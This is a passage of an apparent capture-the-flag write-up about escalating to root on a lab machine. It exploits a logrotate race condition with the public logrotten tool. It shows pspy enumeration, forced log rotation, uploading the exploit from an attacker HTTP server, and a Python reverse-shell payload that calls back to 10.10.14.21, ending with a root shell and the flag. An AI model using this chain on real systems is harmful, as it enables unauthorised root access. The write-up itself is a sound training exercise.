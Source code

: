 #### 4.1. Enum

1) Log rotation `logrotate` runs as `root`

```
reader@book:/tmp$ wget 10.10.14.21:8888/pspy64
reader@book:/tmp$ chmod +x pspy64
reader@book:/tmp$ ./pspy64
...
2020/06/17 07:55:27 CMD: UID=0    PID=922    | /bin/sh /root/reset.sh
2020/06/17 07:55:27 CMD: UID=0    PID=918    | /bin/sh -c /root/reset.sh
...
2020/06/17 07:56:01 CMD: UID=0    PID=6590   | /bin/sh /root/clean.sh
...
2020/06/17 07:59:20 CMD: UID=0    PID=7231   | /usr/sbin/logrotate -f /root/log.cfg
2020/06/17 07:56:15 CMD: UID=0    PID=6706   | /bin/sh /root/log.sh
...
```

2) We can force log rotation as unprivileged user

```
reader@book:~/backups$ head -c 10M < /dev/urandom > access.log
reader@book:~/backups$ ls
access.log  access.log.1  access.log.2
reader@book:~/backups$ head -c 10M < /dev/urandom > access.log
reader@book:~/backups$ ls
access.log  access.log.1  access.log.2  access.log.3
```

#### 4.2. Privesc

Use race race-condition vulnerability to elevate privs to root: `https://github.com/whotwagner/logrotten`

1) Compile as static binary

```
# wget https://raw.githubusercontent.com/whotwagner/logrotten/master/logrotten.c
# gcc -static -o logrotten logrotten.c
```

2) Upload on target server

```
# python3 -m http.server 8888
reader@book:/tmp$ wget 10.10.14.21:8888/logrotten
```

#### 4.3. Root shell

1) Payload

```
reader@book:/tmp$ cat /tmp/payload
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
reader@book:/tmp$ chmod +x /tmp/logrotten /tmp/payload
reader@book:/tmp$ /tmp/logrotten -p /tmp/payload /home/reader/backups/access.log
```

2) Rev shell and flag

```
# nc -nlvp 9999
listening on [any] 9999 ...

connect to [10.10.14.21] from (UNKNOWN) [10.10.10.176] 36578
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
84da92adf998a1c7231297f70dd89714
```
